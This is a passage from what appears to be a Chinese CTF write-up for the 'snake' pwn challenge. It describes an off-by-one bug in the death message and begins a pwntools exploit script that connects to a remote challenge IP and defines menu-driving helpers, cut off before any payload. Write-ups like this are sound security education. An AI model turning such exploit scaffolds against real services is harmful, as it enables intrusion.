 # SCTF-WP


君子色而不淫，发乎情，止乎礼。						——《诗经》



## snake

题目漏洞很简单，如果蛇死亡后的坐标在最右下角的话，那么死后留下的message将会有一个off by one漏洞，有了这个漏洞就不多说了，后面就都是套路了。

````python
from pwn import *
if args['REMOTE']:
	sh=remote('39.107.244.116',9999)
else:
	sh=process('./snake')

if args['I386']:
	context.arch='i386'
else:
	context.arch='amd64'

if args['DEBUG']:
	context.log_level='debug'
s      = lambda data               :sh.send(data) 
sa      = lambda delim,data         :sh.sendafter(delim, data)
sl      = lambda data               :sh.sendline(data)
sla     = lambda delim,data         :sh.sendlineafter(delim, data)
sea     = lambda delim,data         :sh.sendafter(delim, data)
r      = lambda numb=4096          :sh.recv(numb)
ru      = lambda delims, drop=True  :sh.recvuntil(delims, drop)
info_addr = lambda tag, addr        :sh.info(tag +': {:#x}'.format(addr))
itr     = lambda                    :sh.interactive()
gdba	= lambda command=''			:gdb.attach(sh,command)

def choice(elect):
	sh.recvuntil('4.start name')
	sh.sendline(str(elect))

def add(index,size,content):
	choice(1)
	sh.recvuntil('?')
	sh.sendline(str(index))
	ru('?')
	sl(str(size))
	ru('?')
	sl(content)

def get(index):
	choice(3)
	sh.recvuntil('?')
	sh.sendline(str(index))

def delete(index):
	choice(2)
	sh.recvuntil('?')
	sh.sendline(str(index))

def start():
	choice(4)

def down_to_end():
	for i in range(35):
````